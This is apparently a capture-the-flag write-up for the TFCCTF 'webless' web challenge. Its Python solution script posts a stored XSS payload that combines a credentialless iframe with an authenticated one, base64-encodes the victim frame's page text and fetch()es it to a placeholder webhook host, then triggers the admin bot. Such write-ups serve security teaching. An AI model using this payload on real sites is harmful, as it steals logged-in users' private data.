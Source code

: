 # Solution

Use credentialless iframe to get XSS and a normal (authenticated) iframe to read the flag.

```python
import requests

s = requests.Session()
URL = "https://webless-a0760039971fe89e.challs.tfcctf.com"

solution = """
<iframe src="/post/0"></iframe>
<iframe credentialless src="/login?username=<script>fetch(`https://WEBHOOOK/${btoa(top.window.frames[0].document.body.innerText.substr(20))}`)</script>&password=a"></iframe>
"""

s.post(URL+"/register", data={"username": "test", "password": "test"})
s.post(URL+"/create_post", data={"title": "LEAK", "description": solution, "hidden": "off"})
s.post(URL+"/report", data={"url": "http://127.0.0.1:5000/post/1"})

print("Check the webhook")
```